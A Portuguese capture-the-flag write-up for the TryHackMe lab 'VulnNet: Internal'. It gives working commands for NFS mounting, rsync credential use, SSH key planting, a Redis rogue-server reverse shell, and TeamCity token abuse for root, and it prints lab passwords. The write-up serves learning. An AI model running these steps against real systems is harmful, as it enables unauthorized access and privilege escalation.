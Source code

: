 https://tryhackme.com/room/vulnnetinternal

## Recon

Usando NMAP:

```
PORT      STATE    SERVICE     VERSION  
22/tcp    open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
139/tcp   open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
445/tcp   open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
873/tcp   open     rsync       (protocol version 31)  
2049/tcp  open     nfs
6379/tcp  open     redis       Redis key-value store  
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

No SMB existem 3 arquivos descobertos através do smbclient:
- business-req.txt  
- data.txt  
- services.txt -> possui a primeira flag

Através do módulo `use auxiliary/scanner/rsync/modules_list` do metasploit para enumerar pastas compartilhadas do rsync, descobri um arquivo chamado "files" mas é preciso senha para poder acessar (bruteforce não dá).

Como a porta 2049 está aberta, tentei buscar alguma coisa dela, e usando o comando `showmount -e IP`, existe um diretório que pode ser acessado remotamente `/opt/conf`. Ao montar usando os comandos abaixo, obtive o acesso a arquivos de configurações como por exemplo a senha do redis **B65Hx562F@ggAZ@F**.

```sh
mkdir /mnt/vulnnet
mount -o rw IP:/opt/conf /mnt/vulnnet
```

### Explorando redis

Usando o módulo do metasploit `uxiliary/gather/redis_extractor` é possível obter a segunda flag.

Nele há um base64 que ao decodificar nos dá o que é necessário para autenticar no rsync `Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v`

Depois de ter explorado as pastas do rsync, voltei a explorar redis para ganhar acesso ao alvo. Nessa versão do redis 4.0.9 consegui realizar um shell reverso com ajuda desse repositório [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server/tree/master). 
### Explorando rsync

Rodando o comando `rsync -av rsync://rsync-connect@IP/files .` é baixado tudo que está em `/home/sys-internal` na máquina alvo e é onde está a terceira flag.

Com rsync também é possível fazer upload de arquivos, fazendo upload de arquivos para logar com ssh, conseguimos acesso ao usuário **sys-internal**

```sh
ssh-keygen -t rsa
cp ~/.ssh/id_rsa.pub authorized_keys
rsync authorized_keys rsync://rsync-connect@IP/files/sys-internal/.ssh
```
## Privesc

Na máquina existe um programa na raiz chamado TeamCity que está rodando localmente na porta 8111 e apenas o root tem acesso aos seus arquivos. Usando o ssh para encaminhar portas e acessar da minha máquina através do comando abaixo, ele leva para uma tela de login abrindo pelo navegador.

```sh
ssh -L 8111:localhost:8111 sys-internal@IP -p 22
```

A tela possui um aviso, indicando que é possível logar como superusuário sem as credenciais, apenas com um token. Olhando na máquina alvo, este token pode ser obtido em:

```sh
cat /TeamCity/logs/catalina.out | grep token
```

Como o TeamCity é uma ferramenta de CI/CD, é possível buildar projetos e criar script que irão rodar durante o build.

![[Pasted image 20231228210516.png]]

Com isso so abrir uma porta e GG.
